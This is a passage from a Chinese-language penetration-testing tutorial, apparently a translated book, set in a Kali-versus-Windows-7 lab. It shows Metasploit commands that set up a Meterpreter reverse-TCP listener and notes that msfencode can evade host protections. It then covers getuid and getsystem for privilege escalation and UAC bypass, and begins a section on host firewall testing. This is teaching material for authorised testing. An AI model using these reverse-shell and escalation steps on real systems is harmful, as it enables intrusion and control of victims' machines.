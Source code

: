 +   `set PAYLOAD windows/meterpreter/reverse_tcp`

+   `set LHOST <Kali IP>`

+   `set LPORT 123`

+   `exploit`

这将设置监听器，并等待受害者连接。以下是命令的示例：

![用户账户控制](img/477-1_10_39.jpg)

现在我们已经准备好连接了。为此，我们需要用户运行我们创建的可执行文件。我们可以使用诸如`msfencode`之类的编码器来尝试规避已经存在的基于主机的保护措施。然而，在测试环境中，我们只能验证规避是否适用于我们的配置，并不能保证我们在目标环境中会得到相同的配置。当程序运行时，我们应该在我们的 Kali 窗口中看到一个连接和会话打开。以下截图显示了一个示例：

用户账户控制

现在我们有了一个 shell。接下来就是棘手的部分；我们必须尝试提升权限，但首先我们需要看看我们目前的权限级别是什么。在受害机器上的 shell 中输入`getuid`来显示您当前的权限级别。以下截图显示了一个示例：

用户账户控制

正如前面的截图所示，我们不是系统，所以我们需要提升权限并绕过 UAC 保护。首先要尝试的是看看 Meterpreter shell 是否能为我们执行特权升级。我们可以通过输入`getsystem`来让它尝试将权限提升到系统级别。以下截图显示了一个示例：

用户账户控制

显示输入 getsystem 并让其尝试将权限提升到系统（裁剪的文本不重要）

正如前面的截图所示，我们没有成功，所以我们需要尝试另一种方法。当我们讨论客户端测试时，我们将更详细地讨论这个问题。所以，现在我们将在这里停下来，稍后再来看这个问题。一如既往，这取决于我们已经入侵的机器的配置。我们不能保证我们能够绕过 UAC。

## 主机防火墙

在我们的测试中，防御中经常被忽视的一点是主机防火墙。在本章的前面，我们解释了在防火墙开启时，我们在进行漏洞扫描时会受到一定的限制。我们将继续进行测试，以便了解主机防火墙可能带来的挑战，然后看看在防火墙开启时我们可以使用哪些方法来从目标获取数据。

正如您可能记得的，根据我们的扫描方法论，我们首先寻找活动系统，然后是端口，接着是服务。从那里，我们进行枚举，识别漏洞，然后根据我们的工作范围进行利用。现在，我们需要做的是首先关闭防火墙，然后在各个定义的区域的样本上打开防火墙。我们将使用 Kali Linux 虚拟机和 Windows 7 机器作为我们测试的目标。

在您的 Windows 7 机器上，我们需要打开防火墙配置。有许多方法可以做到这一点。为了我们的目的，在这里我们将右键单击网络托盘图标，然后导航到**打开网络和共享中心** | **Windows 防火墙**以打开防火墙配置选项。以下截图显示了一个示例：
